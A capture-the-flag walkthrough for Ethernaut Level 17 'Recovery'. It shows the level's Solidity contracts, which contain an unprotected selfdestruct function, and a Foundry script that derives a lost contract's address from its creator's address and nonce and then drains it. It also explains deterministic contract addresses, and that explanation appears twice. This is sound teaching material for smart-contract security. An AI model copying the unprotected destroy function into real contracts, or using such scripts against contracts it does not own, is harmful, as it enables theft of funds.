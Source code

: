 # Level 17 - Recovery ⏺⏺⏺

{% embed url="https://ethernaut.openzeppelin.com/level/17" %}

### Level Setup

{% hint style="info" %}
A contract creator has built a very simple token factory contract. Anyone can create new tokens with ease. After deploying the first token contract, the creator sent `0.001` ether to obtain more tokens. They have since lost the contract address.

This level will be completed if you can recover (or remove) the `0.001` ether from the lost contract address.
{% endhint %}

### Level Contract

{% embed url="https://github.com/OpenZeppelin/ethernaut/blob/a89c8f7832258655c09fde16e6602c78e5e99dbd/contracts/src/levels/Recovery.sol" %}

{% code lineNumbers="true" fullWidth="true" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Recovery {
    //generate tokens
    function generateToken(string memory _name, uint256 _initialSupply) public {
        new SimpleToken(_name, msg.sender, _initialSupply);
    }
}

contract SimpleToken {
    string public name;
    mapping(address => uint256) public balances;

    // constructor
    constructor(string memory _name, address _creator, uint256 _initialSupply) {
        name = _name;
        balances[_creator] = _initialSupply;
    }

    // collect ether in return for tokens
    receive() external payable {
        balances[msg.sender] = msg.value * 10;
    }

    // allow transfers of tokens
    function transfer(address _to, uint256 _amount) public {
        require(balances[msg.sender] >= _amount);
        balances[msg.sender] = balances[msg.sender] - _amount;
        balances[_to] = _amount;
    }

    // clean up after ourselves
    function destroy(address payable _to) public {
        selfdestruct(_to);
    }
}
```
{% endcode %}

### Exploit

{% tabs %}
{% tab title="Anvil" %}
```bash
make anvil-exploit-level-17

<INPUT_LEVEL_INSTANCE_CONTRACT_ADDRESS>
```
{% endtab %}

{% tab title="Holesky" %}
```bash
make holesky-exploit-level-17

<INPUT_LEVEL_INSTANCE_CONTRACT_ADDRESS>
```
{% endtab %}
{% endtabs %}

{% tabs %}
{% tab title="Exploit Deployment Script" %}
{% embed url="https://github.com/EridianAlpha/ethernaut-foundry/blob/f51d39d28d064332745483d477099a1ba9b9fe9a/script/Level17.s.sol" %}

{% code title="script/Level17.s.sol" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {Script, console} from "forge-std/Script.sol";
import {HelperFunctions} from "script/HelperFunctions.s.sol";

// ================================================================
// │                       LEVEL 17 - RECOVERY                    │
// ================================================================
interface ISimpleToken {
    function destroy(address payable _to) external;
}

contract Exploit is Script, HelperFunctions {
    function run() public {
        address targetContractAddress = getInstanceAddress();

        vm.startBroadcast();
        // The first contract deployed will have a nonce of 1
        uint256 nonce = 1;

        // Find the address of the first contract deployed
        address firstContractAddress = address(
            uint160(
                uint256(
                    keccak256(abi.encodePacked(bytes1(0xd6), bytes1(0x94), targetContractAddress, bytes1(uint8(nonce))))
                )
            )
        );

        // Call destroy on the target contract
        ISimpleToken(firstContractAddress).destroy(payable(msg.sender));
        vm.stopBroadcast();
    }
}
```
{% endcode %}
{% endtab %}
{% endtabs %}

Submit instance... 🥳

### Completion Message

{% hint style="info" %}
Contract addresses are deterministic and are calculated by `keccak256(address, nonce)` where the `address` is the address of the contract (or ethereum address that created the transaction) and `nonce` is the number of contracts the spawning contract has created (or the transaction nonce, for regular transactions).

Because of this, one can send ether to a pre-determined address (which has no private key) and later create a contract at that address which recovers the ether. This is a non-intuitive and somewhat secretive way to (dangerously) store ether without holding a private key.

An interesting [blog post](https://swende.se/blog/Ethereum\_quirks\_and\_vulns.html) by Martin Swende details potential use cases of this.

If you're going to implement this technique, make sure you don't miss the nonce, or your funds will be lost forever.Contract addresses are deterministic and are calculated by `keccak256(address, nonce)` where the `address` is the address of the contract (or ethereum address that created the transaction) and `nonce` is the number of contracts the spawning contract has created (or the transaction nonce, for regular transactions).

Because of this, one can send ether to a pre-determined address (which has no private key) and later create a contract at that address which recovers the ether. This is a non-intuitive and somewhat secretive way to (dangerously) store ether without holding a private key.

An interesting [blog post](https://swende.se/blog/Ethereum\_quirks\_and\_vulns.html) by Martin Swende details potential use cases of this.

If you're going to implement this technique, make sure you don't miss the nonce, or your funds will be lost forever.
{% endhint %}

### Notes

{% embed url="https://github.com/nvnx7/ethernaut-openzeppelin-hacks/blob/e936301859334383d568a614084917100319205e/level_17_Recovery.md" %}
